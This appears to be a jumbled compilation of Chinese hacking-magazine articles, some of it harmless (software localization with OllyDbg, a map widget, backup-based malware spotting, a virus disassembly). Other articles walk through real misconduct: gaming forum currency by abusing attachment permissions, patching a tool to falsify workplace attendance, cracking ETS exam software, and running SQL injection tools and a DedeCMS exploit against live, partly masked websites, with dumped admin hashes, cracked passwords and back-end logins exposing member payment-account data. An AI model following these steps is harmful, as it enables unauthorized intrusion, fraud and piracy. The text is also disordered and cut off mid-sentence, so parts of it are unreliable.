2. 接下来修改下切割文件的大小和输出路径，右键文件编辑或者用记事本打开，我修改为1K/个（如图1），Ctrl+S保存退出，目的是为了上传速度快、分割快；然后直接把文件拖到Auto_rar.bat文件自动压缩分割！

3. 一切准备好就该开始了，进入XX论坛，点击发表主题，按上传附件，批量上传（如图2）。

4. 上传完毕，插入附件（如图3）。

5. 关键的时刻到了，找到最下面设置浏览权限把阅读权限设置为“最高权限”（如图4），这样什么会员啊、斑竹啊、admin啊通通靠边站。


图4


图2

6. 发表主题，提示：获得金钱2054（如图5）——狠啊，人家回复或发帖一次才得1金钱。


图5


图6

7. 发表后快速找到帖子下面的编辑按钮（如图6）进行帖子编辑，把原来附件Ctrl+A选定全删掉，然后上传刚刚准备的那几张图片放进去；保存（别忘了把阅读权限改为“不限”）。

8. 到此差不多了，你已经“神不知鬼不觉”地多了2054个金币，一般情况下只要管理员不去详细查发帖记录是不会发现的（除非你发神经去暴露和炫耀自己）。

三、建议读者在月黑风高的时候，用小号试验！希望大家别乱搞，被发现封ID可不是好玩的！

> （文中涉及的相关程序本期光盘已收录）

### 云海中的汉化（动态修改技巧）

- 操作系统环境：Windows 7
- 目标程序：Proxifier Portable Edition v3.0
- 目标程序大小：3.79 MB
- 工具：Dintal-OD

应上一篇文章“云海中的汉化（准确定位技巧）”中的思路，顺应软件字符串生成的方法去进行汉化。软件是动态生成，我们也是动态修改它。不废话，开始吧……

首先，我们要明确修改的位置，运行软件，在浏览器上打上任意网址，当软件产生流量时，点击右下角托盘图标退出软件，这时就会弹出的一个提示框（图1）：


图1


图2

前言：对于一般的汉化来说，找到需要修改的字符串后，通过资源修改工具可以轻易进行汉化。但是不是所有软件的汉化都是一样的，其中比较普遍而有代表性的一种情况是字符串是自绘的，也就是说，软件里不存在这样的字符串，而是软件在运行的时候才生成这样的字符串；还有一种情况就是需要修改的字符串是全局的字符串，如果改了资源的话就会导致整个软件各处调用这个字符串的地方都被修改，这时如果要单单修改调用的某一处的话，就需要用到下面的方法了……

目标字符是这个提示框的标题“Proxifier Portable”。OD载入软件，我们需要首先做的是找到要修改的字符显示时刻，因为我们是动态修改，所以我们找的是字符显示的那个时刻而不是字符的根本位置。现在OD载入吧：先F9运行软件，下MessageBoxW断点，按Ctrl+G弹出转到窗口，填上“MessageBoxW”，确定。然后在第一行双击下好断点，最后在右下角点托盘图标退出就会中断下来（图2）。现在我们在OD右下角的堆栈窗口“UNICODE "Proxifier Portable"”的位置点击右键，数据窗口跟随，就会见到数据窗口到达了数据所在位置（图3）……断点中断下来后，在堆栈窗口往下翻，找到0015F3EC处的返回位置，点击右键-反汇编窗口跟随，就返回到这次调用提示对话框的地方了（图5）。（提示1：由于我在Windows 7上进行调试，所以会存在重定位的情况，也就是说地址可能不是我贴出的地址）


对01343819处下断点，然后重新载入软件，运行，触发提示框事件，就会中断在01343819处，然后一直向下走就会见到右边的寄存器开始被赋值了字符串“Proxifier Portable”，接着又会将字符串压入堆栈，我们要改的时机就是在，寄存器被赋值后，压入堆栈前，因此改的范围是以下这段代码的范围：

```asm
01343818  MOV EBX, DWORD PTR ...
0134381E  JMP SHORT ...
01343820  LEA EBX, ...
01343826  MOV EDI, 104
0134382D  PUSH EDI
0134382C  MOV EAX, EBX
0134382E  PUSH EAX
...
```

```asm
01343831  CALL DWORD PTR DS:[<&KERNEL32.GetModuleFileNameW>]
01343837  CMP EAX, EDI
01343839  JNZ SHORT ...
0134383B  XOR EAX, EAX
0134383D  MOV WORD PTR SS:[EBP-6], AX
01343841  PUSH DWORD PTR SS:[EBP+10]
01343844  PUSH EBX
01343845  PUSH DWORD PTR SS:[EBP-220]
0134384B  PUSH DWORD PTR SS:[EBP-21C]
01343851  CALL Proxifier....
调用提示框
```

首先，我们把代码的开头处改掉，记录下被改掉的这些语句。

```asm
00473841  PUSH DWORD PTR SS:[EBP+10]
00473844  PUSH EBX
00473845  PUSH DWORD PTR SS:[EBP-220]
...
```

让他跳转到程序的另外一个空白的地方，以便我们填写代码。怎样找空白的地方呢？我们按快捷键Ctrl+B，输入“0000000000”确定，然后就会来到空白的地方了，我们在空白的地方随便选个地址，记下来吧，这里我选了005AFEB7，我们回到要修改的代码开头，把这里改为jmp 005AFEB7，保存一份。（图6）


用OD载入刚保存的那一份程序，再次去找到我们要修改的地方，按Ctrl+G输入“005AFEB7”确定来到我们的空白处，这里需要先把刚才我们为了修改跳转到这里而被去掉的代码补上，然后再写我们修改字符串的代码。

## 傻瓜黑客

或，我们把大概区域NOP掉（图7）。然后在字符串被填入寄存器的代码下一条下断点，运行程序，触发提示框事件，这时断下来就是字符串被填入寄存器而未压入堆栈的时刻了。我们在`ebx`寄存器那里点数据窗口跟随，然后通过`Ctrl+G`在反汇编窗口回到我们的修改代码处（图8）。先在数据窗口把我们想修改成的字符用二进制编辑修改好（图9）。这里我修改为`We-aC`，然后就是利用汇编代码再填一遍这些字符了……具体修改代码和说明如下：


图7


图8


图9

```asm
005AFEB7  C703 57006500  MOV DWORD PTR DS:[EBX],00650057 ; 填写字符 "We"
005AFEBD  83C3 04        ADD EBX,4                      ; 目标移位到下一个字符位置
005AFEC0  C703 20006100  MOV DWORD PTR DS:[EBX],00610020 ; 填写字符 " a"
005AFEC6  83C3 04        ADD EBX,4
005AFEC9  C703 43000000  MOV DWORD PTR DS:[EBX],43       ; 填写字符 "C"
005AFECF  83C3 04        ADD EBX,4
005AFED2  C703 00000000  MOV DWORD PTR DS:[EBX],0        ; 补充 "0000" 结束
005AFED8  83EB 0C        SUB EBX,0C                      ; 复位EBX
005AFEDB  FF75 10        PUSH DWORD PTR SS:[EBP+10]
005AFEDE  53             PUSH EBX
005AFEDF  FFB5 E0FDFFFF  PUSH DWORD PTR SS:[EBP-220]
005AFEE5  E9 5E39ECFF    JMP Prox...                     ; 跳回原流程
005AFEEA  90             NOP
```

同时给出二进制码，方便大家复制粘贴：

```text
C7 03 57 00 65 00 83 C3 04 C7 03 20 00 61 00 83
C3 04 C7 03 43 00 00 00 83 C3 04 C7 03 00 00 00
00 83 EB 0C FF 75 10 53 FF B5 E0 FD FF FF E9 5E
39 EC FF 90
```

修改好了，保存一份出来测试，顺利通过（图10）。


图10

后记：动态修改对于新手的难点有两个，一是需要找到修改的时机，二是需要懂得汇编语言，知道应该怎么去写代码。当然，以上两点可以用一点代替，那就是经验，调试多了、汇编多了，当你见到程序的时候，脑海中就形成了解决方案了。动态修改，对白给的软件是很有用的；如果大家有兴趣的话可以到网上找找相关资料，我的经验就此分享完毕。

> （文中涉及的相关程序及代码本期光盘已收录）

### 修改考勤软件的数据库字符串

枯叶

想必每个公司都有考勤机，每个公司都有一些人在迟到的前几秒钟匆忙打卡，我们公司也一样。只是，在我们部门内部流传着一个神奇的软件——改变勤记录的软件（其实没什么神奇的，就是一个用DELPHI写的连接数据库，可以修改考勤数据的小工具）。最近考勤服务器的IP地址变了，写这个软件的人已经到了其他的部门。因此我们需要重新实现一个这样的工具，手头上没有源代码，那么就直接从二进制文件上做着手吧。

这种连接数据库的软件大部分都是用的是ADO控件，使用这种控件都会为该控件设置一个连接字符串。既然是字符串，那最简单的方法就是直接在OD中搜索这个连接字符串。打开OD直接加载该“改变勤记录的工具”并运行它，搜索ASCII和UNICODE字符串，都没有搜索到连接字符串。

既然这样不行，那么就换思路进行。由于它是DELPHI写的软件，那么我们就使用DEDE这个工具对其进行反编译，如图1所示。图1中可以看到数据库的连接字符串。我们用C32ASM打开该软件，并搜索连接字符串中的IP地址。搜索到的内容如图2所示。在图2中的部分都是我们要处理的部分，因此我把图截取的稍微大了一些。原来的IP地址为“192.168.X.XXX”，并且还有五位的端口号（没有使用SQLSERVER的默认端口），而现在新的IP地址为“10.10XX.XX”，使用默认的SQLSERVER端口号，因此不需要带端口号。这样，我们的字符串的长度就有变化了。除了这里以外，连接数据库的密码长度也变了，因此整个部分我们都需要进行处理。


图2

我这里的思路是直接修改其中的数据。将位数不足的地方使用后面的数据往上填补。因此，修改后的内容如图3所示。修改完以后，我们保存并执行修改后的程序，程序报错，如图4和图5。我们根据图5的报错，可以看出“ImageList”读取数据时出错。我在来观察一下图1。图1中有一个ImageList1控件，我们将ImageList1控件的数据改回原来的位置，如图6所示。我们再次运行该软件，软件可以正常运行，但是按钮上的图片没有了。


图3


图1

这样我们的改变勤的软件就算是修改完毕了。最后做一个简单的小节，先弯图了。DELPHI中的控件都是以“T”开头的，就类似MFC的类都是以“C”开头一样。每个控件之间至少由两个字节的“00 00”来间隔。控件的属性与控件属性的值之间有两个字节进行间隔。第一次我们修改完后报错是因为ImageList无法正确读取数据，而第二次按钮上的图片没有了是因为ImageList控件和前一个控件之间间隔的“00”字符太多了，软件无法识别该控件所致。


图4


图5


图6


图7

本文的重点在于没有任何使用一些逆向相关的工具软件，在最后做了简单的总结分析，希望能对大家起到抛砖引玉的效果。

> （文中涉及的相关软件本期光盘已收录）

### 注入？Safe3 SQL不错！

年晓东

长期以来，广大小菜们在注入检测时所使用的工具无非就是啊D、明小子和穿山甲、HDSI等几个软件（尤其是前两个的出镜率可以说是最高的）。有时对于同一个目标网站的注入检测，不同工具的最终报告可能会有所出入（甚至是截然相反的）；因此有大牛建议我们菜鸟应该互补使用多个工具来进行注入检测，效果可能会更好。最近小菜无意之中入手了一个注入安全检测工具——Safe3 SQL（或许大家早已有所耳闻），中英文破解9.0版（Crack By Lkou[LCG]），试用了一下之后发现在检测注入方面表现很不错。

做个小检测吧，在“中国被黑站点统计系统”中找个最新被黑的网站（2012.04.01）：http://www.sxxxxx.com/admin/ea_201233110495.html，虽然检测者所挂的黑页上明明白白写着“网站漏洞已补！”，但检测之后发现注入漏洞依旧。这是西安某工程有限公司的网站，通常这样的企业网站存在注入漏洞的几率是比较大的，点击“产品展示”中某项打开其链接：http://www.sxxxxx.com/xjje.asp?id=1122，复制粘贴到Safe3 SQL上方的“网址”后，接着点击后面的“注入”按钮即可开始检测。Safe3 SQL很容易上手，与明小子差不多，比如在点击了“获取表名”按钮之后猜解出包括admin在内的三个表；接着点击admin再点击后面的“获取字段名”，猜解出包括“password”和“username”在内的五个字段；按住Ctrl键点击“password”和“username”后，再点击后面的“获取数据”按钮，最后就得到了两条记录：7a57a5a743894a0e|admin、84c45962d887564f|xabuild2（如图1），破解后的密码分别是“admin”和“admin123456”。附带说明一句：明小子在检测这个注入点时提示“检测失败，该URL不可以进行注入！”，啊D则是提示“这个连接不能SQL注入！请试别的连接！”（如图2）。


图1

## 饕餮黑客


图2

尝试登录，成功（如图3），说明Safe3 SQL的注入猜解是完全正确的（前辈竟然将标题更改成“无语还是默认密码”！）。当然，Safe3 SQL还有其它好多功能；比如自带了浏览器、MD5密码破解和旁注检测等等，其中还有一个“漏洞挖掘”功能很不错，类似于啊D的“扫描注入点”——能够在自身浏览器中自动寻找目标网站的可能注入点（如图4）。Safe3 SQL更多的功能应用，大家可自行研究。

怎么样，有这样给力的工具放着不用，是不是有点儿可惜呀？试一下吧，相信Safe3 SQL是不会让你失望的。


图3


图4

是否正确呢？验证一下便知。打开该网站的后台（http://www.sxxxxx.com/admin/Admin_Index.Asp），用admin/admin

### 巧用FusionMaps做中国地图统计网站来源图

彭永声

网站有时候为了统计来客，却不知道大把都来自哪里，今天我做个教程教一下大家如何弄。因为一般人用php做站，所以这里我用php来演示如何用FusionMaps做统计。

为了整理方便，我提取了fusionmaps的核心文件，下面简称FusionMaps为FM如下

- FCmap_China2.swf  FM的FLASH文件
- FusionMaps.js  FM的javascript库
- FusionMaps.php  FM的核心文件
- Index.php  首页的调用

Index.php里面教我们怎样调用，首先我们先了解一下编码表

打开《地点编码整理.txt》，里面都是对应的地方名。

打开index.php，手动输入一下IP，判断地方。然后修改dataarray的值，就行。

```php
$dataArray[0][1]="{1}"; $dataArray[0][2]="179000000";
```

- 1. 替换为相应的编号，例如为CN.GD
- 2. 替换为相应的数值，数值不同，颜色不同。

效果如图1：（图1）

教程到此结束。希望带给大家更多实用技巧。


图1

（文中涉及的相关代码本期光盘已收录）

### 妙手全靠混账病毒助您逃

刘景云

在病毒、木马、间谍程序横行的今天，如何避免恶意程序侵入自己的爱机，对于本机的正常运行尤为重要。病毒侵入系统的手段也不断翻新。仅仅依靠杀毒软件，有时并不能完全抵御病毒的入侵。当新的病毒出现后，如果您没有及时升级病毒库，病毒照样可以轻松入侵系统。要想消灭病毒，首先必须及时发现病毒，这样才能做到有的放矢。其实，不需要什么高深的技术，仅仅利用Windows自带的备份程序，我们就可以轻松追寻到病毒的踪迹。

#### 深入了解备份程序

要想借助于备份程序找到病毒，首先必须对其进行深入了解，熟悉其各项参数的含义。这里我们就简单加以介绍。我们举一个备份的实例子，说明备份程序ntbackup.exe的具体用法。打开记事本，输入以下内容：

```batch
@echo off

@ntbackup.exe backup "C:\Documents and Settings\cxl\My Documents" /a /v:no /r:no /rs:no /hc:off /m normal /l:s /f "e:\mydocumentbak.bkf"
```

其中cxl是用户名，在ntbackup.exe命令行中backup关键字表示执行数据备份，后跟原文件夹路径，/a参数表示执行附加操作，/V:{yes|no}参数表示在数据备份完成后，执行数据校验操作，yes表示执行操作，no表示不执行。/R:{yes|no}参数表示设置存储器的访问权限制，yes表示为所有者权限，no为管理员组成员权限。/RS:{yes|no}参数中的yes表示备份位于远程存储设备上的的迁移数据文件，no表示备份本地存储器的数据。/HC:{on|off}参数中的yes表示在存储器上使用硬件压缩，no表示不使用。/M {backup type} 参数指定备份类型，包括正常（normal）、副本（copy）、增量（incremental）、每天（daily）等类型。/L:{f|s|n} 参数指定日志文件类型，其中f指全部，s指摘要，n指不创建日志文件。/F {"file name"} 参数指备份文件的保存路径逻辑盘路径。当执行该批处理文件时，就可以备份我的文档中的文件了。

#### 什么是增量备份

因为我们主要使用增量备份追踪病毒，这里对增量备份加以简单说明。增量备份针对的目标非常明确，就是上次备份之后，内容发生变化了的文件。假设从星期一到星期五我们每天都需要对某个重要文件夹进行备份，那么最好的方法是星期一对该文件夹进行一个基于正常备份模式的备份操作（假设名称为“备份01.bkf”），之后从星期二到星期五每天执行一个基于增量模式的备份操作（名称从“备份02.bkf”到“备份05.bkf”）。那么当需要恢复该备份文件时，首先需要恢复“备份01.bkf”文件，之后按照顺序依次从“备份02.bkf”到“备份05.bkf”逐个恢复，在恢复过程中，可能会出现文件覆盖的提示，这说明了后一个备份文件的内容比前一个新。不必理会上述提示信息，当恢复完成后，就可以得到关于该文件夹所有的最新文件了。从上述范例可以看到，增量备份是比较“聪明”的，针对的不是所有的目标文件，而是“存档”属性发生变动的文件而言的。我们知道，当对目标文件执行了正常备份之后，备份程序即可将文件的存档属性清理掉，只有当文件的内容变动后，才会重新具有“存档”属性。而增量备份的目标恰恰是这些内容变动的文件，可以看到，增量备份单独存在没有意义，它必须与正常备份“联手”，才可以发挥威力。因此可以说，增量备份是效率最高的备份模式。当执行数据还原操作时，增量备份所恢复的仅仅是内容发生了的文件，而不是全部文件。

#### 如何实现自动备份

此外，还可以利用Windows的启动/关机脚本实现自动备份，在“开始”→“运行”中输入“gpedit.msc”，回车后打开组策略编辑器，依次展开“计算机配置”→“Windows设置”→“脚本（启动/关机）”分支，双击右侧窗体中的“关

#### 巧用备份程序查病毒

一般来说，恶意程序都“喜欢”在系统目录下的System32文件夹中“安身”，如果首先使用备份工具完整备份系统目录下的System文件夹，然后使用增量备份功能定时对该文件夹进行备份，当本机运行不太正常时，及时检查备份文件，就能查出隐藏很深的“入侵者”。打开备份工具主窗口，选中文件夹

### 全套的“呼呀呼呀”注入漏洞

年晓东

昨天在网上看到大牛Liuker发布了“呼呀呼呀淘客家族注入漏洞”，正值周末，试一试吧！搜索关键字是“Powered by 呼呀呼呀淘客家族”（据说也可以使用“inurl:announce.php?announceid=4”之类的字符串），经过十来分钟的实验后发现确实可行，在此列出两个案例：


图1

第一个测试目标是 http://dxxxh21121.web-l31.com/list.php?cid=50013890，扔到Safe3 SQL中扫描。注意需要手工添加数据库名：eaea_admin（“呼呀呼呀”的拼音字母），列名是：adminname和adminpass，很快就有结果了，猜解出的账号信息是：admin|0916052b6ed354416c387974fcd48cc1（如图1）。

接着进行MD5在线破解，结果是qwjkl12。“呼呀呼呀”的默认后台是域名之后添加“admin/admin_login.php”，构造访问 http://dxxxh21121.web-l31.com/admin/admin_login.php，输入用户名、密码及验证码后点击“管理员登录”按钮，成功进入后台（如图2）。其中的“会员管理”-“会员列表”处显示了53个会员的淘宝账号、支付宝账号、邮箱等敏感信息，而在“数据库备份”处则可看到各种数据库名称——都带有“eaea_”前缀（如图3），直接点击“退出登录”闪人。


图2


图3

第二个测试目标是 http://lxxxm.eaea.cn/list.php?cid=1625，这个比较有意思，不需要进行账号的注入猜解，可以直接访问后台 http://lxxxm.eaea.cn/admin/admin_login.php，看到有提示——“默认的用户名是admin，密码是admin888”（如图4）。那就试试呗？结果真的就进去了（如图5），管理员大哥也太诚实了吧？128个会员的信息，无语了。


图4


图5

貌似是一个非常普通的注入漏洞，不过因为与淘宝账号及支付宝账号有所关联，涉及到Money，危害是不容小觑的，还望使用该系统的网站管理员赶快行动起来——即使官方还未发布最新补丁的话，最起码是把自己的后台藏一下，或是设置个复杂的密码，以求暂时的安全。

### 无需工具，轻松逆战


图1

操作系统环境：Windows 7

目标程序：ETS_SinglePractice,Practice Dintal【We-aC】

目标程序大小：2.31 MB / 4.05 MB

工具：Dintal-OD

前言：看到标题和文章开头，大家可能会有疑问，那不是互相矛盾的吗？文章标题写着无需工具，然后在工具那里又写着“OD”，呵呵，我是说破解的过程无须任何工具，只需要你的系统的基本功能就可以了，至于我为什么要用到OD呢？那是因为我要给大家分享一下我找到破解方法前的思路，找思路离不开逆向，要逆向怎能没有OD呢？再说说这个软件吧，这个软件我第一次接触它是在我读高中的时候，那时候高考都要考口语（现在也要），买一套软件需要60多元，我那时还不会逆向，也没有钱去买，一直到考试之前的一周都没有机会使用这软件的功能，幸亏的是，网上的大神在考试前三天放出了破解方法，那时由于是旧版本，破解方法相当简单，只需要建立一个快捷方式即可突破软件的限制，那时觉得实在是很神奇，也就对破解产生了兴趣。

兴趣，也许那时就是我的破解萌芽开始出现的时候吧。时至今天，这个程序更新了很多次，我也学会了破解技术的一些皮毛。而这款软件的保护机制其实变化并不大，我觉得也是时候分享一下了，也许会有更多的人和我有一样的感想，废话不多，下面破文开始：

首先我们来看看软件的界面，运行“ETS_SinglePractice.exe”

我们发现，软件在没有注册的时候是调用不出真正的程序“Practice.exe”的，我们破解的目的就是让“Practice.exe”这个程序正常运行起来。我先试试去直接运行“Practice.exe”，可以发现程序运行直接退出，显然是有校验。我们直接OD载入，下“ExitProcess”断点，F9运行，中断下来，Alt+F9返回到程序领空。


我们试着把00404B42的跳转改为jmp，跳过程序的退出操作，然后保存一份，双击运行，结果出现错误提示框，而且是内存错误。


按照步步回溯的原理，我们在这段的段首下好断点。


重载程序，F9运行，断下来。然后再次Alt+F9返回到程序领空，这时我们发现OD解析的语句有点怪。


如果是基础不好的小菜可能不知道怎么继续下去，为什么我要说“基础”呢，因为要解决这个问题真的是基础得不得了，根据程序在OD里是由上往下运行的原理，只要向上翻就有可能找到相关线索，这次我用的是“云断点”，在这里向上一直翻到段开头的这段代码中，我任意下断点，然后重载，F9运行就会断在末尾调用且将要调用“ExitProcess”之前，细心的童鞋们也许还会发现有不少可疑的字符串。


在这里我们可以看到一些可疑的字符串“singlereg\msspoken1.ini”，通过这个字符串，我对系统进行了搜索，发现System32里面需要有一个名字为“singlereg”的文件夹，这个文件夹里面需要有一个叫做“msspoken1.ini”的文件，程序才会继续运行下去。可以推断，通过第一个主程序“ETS_SinglePractice.exe”成功注册后会生成这样的一个文件。接着我继续单步走，在程序读取“msspoken1.ini”文件的时候这个文件里面必须有“regcode”这一个字符串。如果没有这些字符串，我们强行去改跳转实现启动程序的，那是不能正常使用的。

可以看到上图是没有题可选的，启动过程中也会出现错误，具体修改代码我贴出来吧，过程就不一一分析了：

```asm
006175E1  /0F84 06030000  je Practice.006178ED   Nop
00617633  /0F84 8F000000  je Practice.006176C8   Nop
0061773B  /0F84 A0010000  je Practice.006178E1   Nop
```

为了验证上面的推理，我决定从“ETS_SinglePractice.exe”上尝试攻破它的验证，以正常启动“Practice.exe”。OD 载入“ETS_SinglePractice.exe”，F9 运行程序，搜索 ASCII 字符串“初中单机版未注册”，然后根据不能被读取的原理去修改程序逐一击破……


修改完后会正常打开“Practice.exe”程序界面。这时我们打开命令提示符窗口（开始-运行-输入 cmd-确定），输入以下命令：

```bat
MODE con COLS=1500 lines=100
wmic process get caption, commandline, executablepath
```


图9

再找到正在运行的“Practice.exe”，我们可以清晰地看到，这时一个带参数启动，参数是“SingleReg\MsSpoken1.ini entry=1”，也就是说 System32 文件夹上面必须有“SingleReg”文件夹，而文件夹里面必须有“MsSpoken1.ini”这个文件。


图10

至于“MsSpoken1.ini”文件里面是不是需要有“reg-code”这行字符串的话，大家可以通过多次修改这个文本去验证。我经过多次修改最终得到的精简版是：

```ini
[初中单机版]

RegCode=bbs.we-ac.com
```

文章到这里应该可以照应题目了——无需工具，轻松越狱，操作方法如下：

- 1. 安装程序（绿色版不用安装，附件里提供网上搜索到的完整版下载地址）。
- 2. 在 System32 文件夹内创建一个叫“SingleReg”的文件夹，然后在里面新建一个叫“MsSpoken1.ini”的文件，接着用记事本打开，在里面填上面提到的精简版内容。
- 3. 在桌面点击鼠标右键，新建快捷方式，输入程序路径（示例路径含 `Practice.exe SingleReg\MsSpoken1.ini entry=1` 参数）。

接着双击运行桌面的快捷方式就可以正常调用“Practice.exe”程序了，个破文到此为止。

> 小结：其实时间过了这么多年了，这个程序的保护方式还是停留在以前的水平……在此只作技术讨论。

### 小菜初试PHP2EXE杀DEDECMS

牛晓东

今天终于在论坛上盼到了2012年5月刊的目录，小菜发现在“一个人的战争”版中有“DedeCMS 后门漏洞利用程序编写”一文，很是期待。作为出镜率一直比较高的DedeCMS，想必大家对它或多或少都有些了解，由于越是常用的系统和模板被曝的漏洞就越多的真理，DedeCMS也一直在漏洞中不断地成长。正好闲来无事（这是最2B的理由了吧？），小菜就上了百度大叔（你想什么呢？！）来搜索DedeCMS的相关漏洞信息。

很快，小菜找到了某大牛刚刚发出的“DEDECMS 5.7 注入EXP”，赶紧满心欢喜地下载，谁知解压缩得到的却是扩展名为.php的文件，可以用Windows的记事本打开的纯文本信息。虽然对PHP一窍不通，但回想1995年学习C语言的过程，小菜隐约觉得这很可能是与C语言的源文件（.c）和可执行文件（.exe）是相似的。也就是说，要想使这样的.php文件发挥威力，应该要经过编译的过程，生成.exe可执行文件之后才能对网上的DedeCMS系统漏洞进行入侵检测。于是继续百度，找到了个小工具，叫“Bamcompile”，但下载解压缩后被本地的金山毒霸提示说“发现病毒，已被金山毒霸成功清除……病毒名称：Win32.Malware.Heur_Generic.A.(kcloud)”。晕，还是将bamcompile.exe上传到 http://r.virscan.org 网上检测一下吧，结果36种杀毒软件中只有ClamAV报告说有“Trojan.Dopper”（如图1），小菜基本上放心了——这个文件应该是正常的。


图2


图1

#### 1. 下载并检测工具

接着将bamcompile解压缩到D盘根目录，然后打开CMD命令行窗口，进入到D:\bamcompile目录。输入bamcompile后回车，出现一堆英文提示，其中有一句使用格式是这样的：“Usage: bamcompile [-options] infile.php [outfile.exe]”。

#### 2. 编译得到可执行文件

小菜就依葫芦画瓢，输入命令：bamcompile dede_5.7.php dede57.exe（其中的dede_5.7.php文件就是下载并复制到D:\bamcompile目录的漏洞程序），作用是使用bamcompile命令将dede_5.7.php源文件编译生成dede57.exe可执行文件，很快得到提示：“dede57.exe created successfully!”（如图2），说明成功了。

## 3. 百度个目标网站测试工具是否有效

在百度中以“powered by dedecms”为关键词进行搜索，找到一个目标“http://www.hxxxx8.com/”，打开后在首页下方的版权信息处发现有“Powered by DedeCms5.7”，对号。命令的使用也很简单，直接在D:\bamcompile>后输入命令“dede57 www.hxxxx8.com /”，作用是运行dede57.exe命令（.exe可省略）来对www.hxxxx8.com网站从其根目录（“/”）进行注入检测，注意命令中至少要使用两个空格来分开这三部分内容。接着，成功的提示出来了，最后一行的信息太令人兴奋了——“skyandy|67ecd1b626ad923583fb”（如图3），这不就是传说中的管理员账号和MD5密码么？


图3

赶紧复制出这个MD5密码去在线破解，哦，“请确认是否……”。

是标准的MD5数据”？仔细一数，呵呵，是20位的。这好办，去掉最前面的三位和最后的一位，截取中间剩下的16位（cd1bb26ad923583f）就是真正的MD5密码了。再次破解，RP好，得到密码结果是“4464952”。

接下来登录后台，DedeCMS系统默认的后台地址是在网站域名之后添加“/dede”，于是访问http://www.hxxxxx8.com/dede，果然是后台；然后用“skyandy/4464952”账号密码尝试登录，呵呵，成功进入对方的后台管理界面（如图4）！


图5


图4


图6

#### 4. 再补充验证一个目标

看来编译生成的.exe真的是非常给力哈，不过为了证明这次的成功不是偶然，那就再找一个目标试试吧 http://www.hxxxxxxxc.com。结果爆出两个账号和MD5密码：admin|e55368df333744e29d0d 和 fengye|c3949ba59abbe56e057f（如图5），将admin账号的MD5密码368df333744e29d0进行在线破解，结果是19870807；登录该网站的后台http://www.

这次的PHP2EXE（“2”就是“to”）实验很成功，小菜通过这样的研究学会了如何将大牛们发布的.php源文件编译成.exe可执行文件的方法，从而为下一步进行工具的使用奠定了成功的基础；以后，我们小菜也可以“编写”带有自己版权信息的工具了——因为在源文件可以任意修改那些运行提示信息。

### 简单病毒样本分析

在某群里下载了一个病毒的样本，好久不看样本了，下载下来玩玩吧。希望自己还能搞定它。

病毒样本分析大致分为两种，一种是行为分析，一种是逆向分析。

行为分析主要是通过系统监控软件，监控系统中各资源或环境的变化，比如监控注册表、监控文件、监控进程，以及监控网络等。当然了，还可以通过HIPS软件来监控病毒的行为。各类系统监控工具或者是HIPS软件都是在系统的不同层面上进行了不同方式的HOOK。比如说在内核层进行HOOK，在应用层进行HOOK。HOOK的方式也是多样化的，比如直接HOOK API函数，或者HOOK SSDT表中的内核函数。

```asm
00401457  PUSH EBP
00401458  MOV EBP, ESP
0040145A  SUB ESP, 418
00401460  PUSH EBX
00401461  PUSH ESI
00401462  PUSH EDI
00401463  CALL 00401160
```

00401457地址处是病毒代码的开始位置，也就是我们在用VC写代码时的main()函数处。在00401463地址处的代码CALL 00401160是调用了一个函数，我们查看被调用函数的代码，代码如下：

逆向分析主要是通过静态分析或者动态调试来查看病毒的反汇编代码，通过断点或者单步来观察病毒的内存数据、寄存器数据等相关内容。

行为分析可以快速的确定病毒的行为从而写出专杀工具，但是对于感染型的病毒是无法通过行为分析进行分析的，或者病毒需要某些触发条件才能执行相应的动作，这样因为系统环境的因素，也无法通过行为分析得到病毒的行为特征。逆向分析通过查看病毒的各个分支流程可以完整的、全面的查看病毒的各个流程，包括病毒需要在某些条件下才被触发的流程，都可以通过查看反汇编代码进行查看。但是，对于病毒的逆向分析需要有Windows的开发能力，需要有阅读汇编的代码。相对于行为分析来讲，要求的技术含量更高一些。

我们通过一个真实的病毒样本，进行一次逆向分析，希望可以对病毒分析的入门者有一定的帮助。

下载到样本后，放置到虚拟机中，虚拟机最好也处于断网情况，因为我们不确定病毒到底有哪些行为。由于我们是逆向分析，即便一些需要连网后才有的病毒行为，我们也能通过反汇编代码一览无余。放置在虚拟机中后，我们例行用PEID查壳之。幸运的是这个病毒没有，而且是用VC编写的。

由于无壳，省去了脱壳的步骤。我们用OD载入病毒，由于是VC编写的直接跳过VC的启动函数，来到真正的病毒代码处，有点分析经验的人都能一眼看出哪些部分是VC的启动代码，关于如何跳过病毒的启动代码就不介绍了。我们直接来到病毒的代码处，病毒的代码如下所示（为了保证代码的美观，我去掉了OD中机器码的那一列，把注释列放到了对应代码的上一行）：

```asm
00401160  PUSH EBP
00401161  MOV EBP, ESP
00401163  SUB ESP, 3C
00401166  LEA EAX, [EBP-4]
00401169  PUSH EAX
0040116A  PUSH 28
... kernel32.GetCurrentProcess
0040116C  CALL DWORD PTR DS:[<&KERNEL32.GetCurrentProcess>]
00401172  PUSH EAX
... ADVAPI32.OpenProcessToken
00401173  CALL DWORD PTR DS:[<&ADVAPI32.OpenProcessToken>]
00401179  TEST EAX, EAX
0040117B  JE SHORT 004011CC
0040117D  LEA EAX, [EBP-C]
00401180  PUSH EAX
... ASCII "SeDebugPrivilege"
00401188  CALL DWORD PTR DS:[<&ADVAPI32.LookupPrivilegeValueA>]
```

## 毒龙

```asm
0040118E    TEST EAX,EAX
00401190    JNZ SHORT 0040119D
00401192    PUSH DWORD PTR SS:[EBP-4]
; kernel32.CloseHandle
00401195    CALL DWORD PTR DS:[<&KERNEL32.CloseHandle>]
0040119B    LEAVE
0040119C    RETN
```

从代码中我们可以看出，00401160 地址处的函数依次调用了如下的 API 函数，分别是：`GetCurrentProcess()->OpenProcessToken()->LookupPrivilegeValueA()->CloseHandle()`。从前三个函数我们可以看出，这个函数的作用是调整当前进程的权限，我们配合 00401181 地址处要找的字符串 “SeDebugPrivilege” 可以看出，这个函数将当前进程的权限调整为具有调试的权限。

回到前面继续看我们病毒的主流程，接着上面的代码如下：

```asm
00401468    MOV ESI,103
; [ebp-418] 保存系统目录
0040146D    LEA EAX,DWORD PTR SS:[EBP-418]
00401473    PUSH ESI
00401474    PUSH EAX
; kernel32.GetSystemDirectoryA
00401475    CALL DWORD PTR DS:[<&KERNEL32.GetSystemDirectoryA>]

; [ebp-314] 保存 Windows 目录
0040147B    LEA EAX,DWORD PTR SS:[EBP-314]
00401481    PUSH ESI
00401482    PUSH EAX
; kernel32.GetWindowsDirectoryA
00401483    CALL DWORD PTR DS:[<&KERNEL32.GetWindowsDirectoryA>]

; [ebp-10C] 保存当前病毒文件的路径（包含病毒文件名）
00401489    LEA EAX,DWORD PTR SS:[EBP-10C]
0040148F    PUSH ESI
00401490    XOR EBX,EBX
